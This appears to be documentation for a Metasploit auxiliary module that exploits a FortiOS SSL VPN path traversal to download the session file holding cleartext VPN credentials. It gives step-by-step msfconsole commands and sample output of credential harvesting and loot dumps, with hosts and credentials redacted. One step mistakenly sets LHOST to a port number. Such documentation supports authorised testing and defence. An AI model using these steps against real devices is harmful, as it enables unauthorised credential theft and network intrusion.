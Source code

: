 FortiOS system file leak through SSL VPN via specially crafted HTTP resource requests.

A path traversal vulnerability in the FortiOS SSL VPN web portal may allow an unauthenticated
attacker to download FortiOS system files through specially crafted HTTP resource requests.

## Vulnerable Application

This module reads logins and passwords in clear text from the `/dev/cmdb/sslvpn_websession` file.
This vulnerability affects (FortiOS 5.4.6 to 5.4.12, FortiOS 5.6.3 to 5.6.7 and FortiOS 6.0.0 to 6.0.4).

## Verification Steps

1. Start msfconsole
2. Do: use auxiliary/scanner/http/fortios_vpnssl_traversal_leak
3. Do: set RHOSTS [IP]
4. Do: set RPORT 10443
5. Do: run

## Options

### DUMP_FORMAT

Dump format. (Accepted: raw, ascii)

### STORE_CRED

Store credential into the Metasploit database.

### STORE_LOOT

Store dump in loot directory.

## Scenarios

### Usages

You can scan and get all credentials on the remote target when you run the following command:

```
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > options

Module options (auxiliary/scanner/http/fortios_vpnssl_traversal_leak):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_FORMAT  raw              yes       Dump format. (Accepted: raw, ascii)
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       XXX.XX.XXX.X     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        10443            yes       The target port (TCP)
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED   true             no        Store credential into the database.
   STORE_LOOT   false            no        Store dump in loot.
   TARGETURI    /remote          yes       Base path
   THREADS      16               yes       The number of concurrent threads (max one per host)
   VHOST                         no        HTTP server virtual host

msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > run

[*] Trying - https://XXX.XX.XXX.X:10443/
[+] Target - https://XXX.XX.XXX.X:10443/ - Vulnerable!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > creds
Credentials
===========

host          origin        service            public  private  realm  private_type  JtR Format
----          ------        -------            ------  -------  -----  ------------  ----------
XXX.XX.XXX.X  XXX.XX.XXX.X  10443/tcp (https)  redacted  redacted          Password      

msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) >
```

You can get a dump capture of the leaked data file.

To do this specific thing, here's how you do it:

```
msf6 > use auxiliary/scanner/http/fortios_vpnssl_traversal_leak
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > set RHOSTS [IP]
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > set LHOST 10443
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > set STORE_LOOT true
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > run

[*] Trying - https://XXX.XX.XXX.X:10443/
[+] Target - https://XXX.XX.XXX.X:10443/ - Vulnerable!
[+] File saved to /home/mekhalleh/.msf4/loot/20201130122633_default_XXX.XX.XXX.X__209748.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) >
```
